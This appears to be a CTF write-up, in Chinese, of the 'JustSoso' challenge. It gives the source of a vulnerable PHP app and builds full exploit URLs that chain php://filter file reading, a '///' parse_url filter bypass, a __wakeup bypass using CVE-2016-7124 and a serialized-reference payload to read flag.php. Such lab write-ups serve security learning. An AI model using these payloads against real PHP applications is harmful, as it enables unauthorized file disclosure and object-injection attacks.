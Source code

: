 # JustSoso

## 操作内容

### 第一步 php伪协议文件读取`index.php`、`hint.php`文件

`index.php?file=php://filter/convert.base64-encode/resource=index.php`
`index.php?file=php://filter/convert.base64-encode/resource=hint.php`

index.php：

```php
<html>
<?php
error_reporting(0); 
$file = $_GET["file"]; 
$payload = $_GET["payload"];
if(!isset($file)){
	echo 'Missing parameter'.'<br>';
}
if(preg_match("/flag/",$file)){
	die('hack attacked!!!');
}
@include($file);
if(isset($payload)){  
    $url = parse_url($_SERVER['REQUEST_URI']);
    parse_str($url['query'],$query);
    foreach($query as $value){
        if (preg_match("/flag/",$value)) { 
    	    die('stop hacking!');
    	    exit();
        }
    }
    $payload = unserialize($payload);
}else{ 
   echo "Missing parameters"; 
} 
?>
<!--Please test index.php?file=xxx.php -->
<!--Please get the source of hint.php-->
</html>
```

hint.php：

```php
<?php  
class Handle{ 
    private $handle;  
    public function __wakeup(){
		foreach(get_object_vars($this) as $k => $v) {
            $this->$k = null;
        }
        echo "Waking up\n";
    }
	public function __construct($handle) { 
        $this->handle = $handle; 
    } 
	public function __destruct(){
		$this->handle->getFlag();
	}
}

class Flag{
    public $file;
    public $token;
    public $token_flag;
 
    function __construct($file){
		$this->file = $file;
		$this->token_flag = $this->token = md5(rand(1,10000));
    }
    
	public function getFlag(){
		$this->token_flag = md5(rand(1,10000));
        if($this->token === $this->token_flag)
		{
			if(isset($this->file)){
				echo @highlight_file($this->file,true); 
            }  
        }
    }
}
?>
```

### 第二步 parse_url /// 绕过flag限制

由于肯定要去读flag文件，要绕过flag的限制
官方文档特意说明：本函数不能用于相对 URL。 

对于畸形url会返回null
可以利用这一点，通过waf

///过waf 直接返回url

`///index.php?`

### 第三步 php反序列化绕过Handle 的 `__wakeup()`

hint.php 两个类
`unserialize($payload);`
肯定是反序列化，先让file文件引入hint.php
`///index.php?file=hint.php`

构造payload：
+ Handle中的handle变量是 private属性
    + s:14:`"%00Handle%00handle"`
+ 目的是把$this->handle 变为Flag对象
    + O:4:`"Flag":3:{...}`
+ 需要绕过__wakeup函数
    + 当成员属性数目大于实际数目时可绕过wakeup方法(CVE-2016-7124)
    + O:6:`"Handle":2:{...}`

组合：`///index.php?file=hint.php&payload=O:6:"Handle":2:{s:14:"%00Handle%00handle";O:4:"Flag":3:{...}}`

### 第四步 使用 指针 绕过 `===`

+ 目的为了在`echo @highlight_file($this->file,true);`读取flag.php
    + s:4:"file";s:8:"flag.php"
+ 绕过`$this->token === $this->token_flag`
    + 在上一句对$this->token_flag = md5(rand(1,10000));进行了赋值
    + 使用引用绑定token和token_flag
    + $flag-> token = & $flag -> token_flag
    + 生成`s:5:"token";N;s:10:"token_flag";R:4;`


生成payload雏形

```php
$b = new Flag("flag.php");
$b->token_flag = null;
$a = new Handle($b);
$b->token = & $b->token_flag ;
echo serialize($a);
```

修改：`///index.php?file=hint.php&payload=O:6:"Handle":2:{s:14:"%00Handle%00handle";O:4:"Flag":3:{s:4:"file";s:8:"flag.php";s:5:"token";N;s:10:"token_flag";R:4;}}`

